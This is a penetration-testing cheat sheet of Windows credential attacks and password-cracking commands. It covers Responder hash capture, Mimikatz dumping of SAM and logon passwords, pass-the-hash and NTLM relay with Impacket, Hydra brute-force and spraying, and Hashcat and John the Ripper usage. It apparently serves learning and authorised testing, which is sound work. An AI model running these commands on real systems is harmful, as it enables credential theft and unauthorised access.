 ## Getting passwords/hashes on Windows 

### Responder  

Initialize responder on an interface
```
sudo responder -I eth0
```

Force a connection to a UNC share at the IP address where responder is listening  
```
\\192.168.1.10\share
```


### Mimikatz  

Run mimikatz as an admin  
```
PS> .\mimikatz.exe
```  

Enable SeDebugPrivilege  
```
privilege::debug
```

Obtain SYSTEM privs  
```
token::elevate
```  

Dump hashes fromthe SAM database  
```
lsadump::sam 
```  

Get passwords/hashes from multiple places  
```
sekurlsa::logonpasswords
```

## Passing the hash  

SMBClient  
```
smbclient \\\\10.10.10.42\\share -U Administrator --pw-nt-hash 9a48310ea6f5fdfee955abed1762964b
```  

Impacket-psexec (executes as SYSTEM)
```
impacket-psexec -hashes 00000000000000000000000000000000:9a48310ea6f5fdfee955abed1762964b Administrator@10.10.10.42
```  

Impacket-wmiexec (executes as user)  
```
impacket-wmiexec -hashes 00000000000000000000000000000000:9a48310ea6f5fdfee955abed1762964b Administrator@10.10.10.42
```

## Relaying a hash

Start SMB server to catch NTLMv2, and when a connection occurs, relay NTLMv2 to the target, and execute a command on the target.
```
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.10.42 -c "powershell -enc JABj..."
```

## Commands/Tools to guess passwords against network services  

### Hydra  

SSH wordlist attack 
``` 
hydra -l myuser -P password.list -s 2222 ssh://10.10.10.43
```

RDP password spray
``` 
hydra -L username.list -p "myPassword123" rdp://10.10.10.43
```

HTTP wordlist attack
```
hydra -l myuser -P password.list 10.10.10.43 http-post-form "/login:user_param=user&password_param=^PASS^:Failure Message"
```

## Password cracking

### Hashcat

Useful blog posts that I had written:  
* https://web.archive.org/web/20210615060624/https://laconicwolf.com/2018/09/29/hashcat-tutorial-the-basics-of-cracking-passwords-with-hashcat/  
* https://web.archive.org/web/20210615064601/https://laconicwolf.com/2019/03/29/hashcat-tutorial-rule-writing/

Finding hash mode  
```
hashcat --help | grep -i "hashtype"
```

#### Password math  

Calculate total number of possibilities  
```
charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
password_length = 8
total_possibilities = len(charset) ** password_length
```

Benchmark Hashcat
```
hashcat -b
```

Calculate time
```  
time_in_seconds = total_possibilities / benchmark_for_hash_type
```


#### Example commands  

Cracking a keepass database hash with a wordlist and rules  
```
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### John-the-Ripper and Hashcat 

Adding Hashcat rules to JTR  
```
sudo nano /etc/john/john.conf

# Append to end of file
[List.Rules:myCustomRules]
c $1 $2 $3 $!
c $1 $2 $3 $@
c $1 $2 $3 $#
```

Using JTR to format hashes  
```ssh2john ../Downloads/id_rsa > ssh.hash```  
There are many hash conversion scripts  
```
$ locate *2john 
/usr/bin/1password2john
/usr/bin/7z2john
/usr/bin/DPAPImk2john
...
```

### John-the-Ripper  
```
john --wordlist=ssh.passwords --rules=myCustomRules ssh.hash
```
